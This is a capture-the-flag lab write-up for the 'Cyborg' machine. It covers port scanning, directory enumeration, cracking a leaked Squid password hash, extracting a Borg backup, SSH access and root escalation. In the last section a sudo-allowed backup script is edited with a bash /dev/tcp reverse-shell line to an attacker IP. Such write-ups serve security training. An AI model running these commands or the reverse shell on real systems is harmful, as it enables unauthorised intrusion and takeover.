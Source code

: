 
# Cyborg

IP - 10.10.102.117


# Scanning and Enumeration
nmap:
```

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Uptime guess: 41.382 days (since Sun Apr 20 11:40:25 2025)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

dirsearch:

```

[20:50:06] 301 -   314B - /admin  ->  http://10.10.102.117/admin/

[20:50:07] 200 -    6KB - /admin/

[20:50:07] 403 -   278B - /admin/.htaccess
[20:50:07] 200 -    5KB - /admin/admin.html

[20:50:07] 200 -    6KB - /admin/index.html

[20:50:26] 200 -   928B - /etc/

[20:50:26] 301 -   312B - /etc  ->  http://10.10.102.117/etc/

[20:50:31] 200 -   11KB - /index.html
```



Found clue that was left by Alex to his team and archive file was available to download under the Archive tab

![image](https://github.com/user-attachments/assets/d6f2113e-7015-4f30-a985-9f74341a70a2)



Found information inside this directory - http://10.10.208.252/etc/squid/
```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```
```
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

- The content of archive.tar was extracted with tar
- The folder contained information about "Borg Backup Repository"


![image](https://github.com/user-attachments/assets/345500b4-fbfd-444b-8a00-fc81dcc13424)


Found useful information on how to extract archive files in Borg - https://borgbackup.readthedocs.io/en/stable/usage/extract.html

![image](https://github.com/user-attachments/assets/22c7e044-f8a7-4602-88af-af8b4fa71c6d)



Before extracting, based on previous information found about the music_archive, we can use john to crack the hash:
- Saved hash ```$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.``` in a file and used john to crack it.

![image](https://github.com/user-attachments/assets/4463c07d-22be-4db8-890f-06dd6338df68)

- To extract the archive file I used this command and passphrase: squidward
![image](https://github.com/user-attachments/assets/0231108e-b80a-4873-a03d-d47eae369f5d)


Inside Alex archived directory, found note.txt:
![image](https://github.com/user-attachments/assets/063d31ac-9946-4442-977f-b694b2541b1f)


## Exploit using SSH

Connected to Alex PC using SSH with password: S3cretP@s3
![image](https://github.com/user-attachments/assets/0ebd74c3-af1e-4623-9c73-d650359d9be3)


Found user.txt


![image](https://github.com/user-attachments/assets/6ed3fd61-909f-4f93-b9e5-fc051bb640bc)



Found what Alex allowed to run and went to /etc/mp3backups directory


![image](https://github.com/user-attachments/assets/ad508d45-af19-4c9a-b0f3-9914a473b3db)


## Reverse Shell/Privilege Escalation

Modified backup.sh file by adding ```bash -i >& /dev/tcp/10.6.41.41/4444 0>&1```


![image](https://github.com/user-attachments/assets/756bacc0-28d3-4677-b7fd-f360ff6eac1f)




Opened a new tab and set up netcat and successfully got a reverse shell to root!



![image](https://github.com/user-attachments/assets/47cfad76-221e-4033-b38d-14a5e6d57bb9)
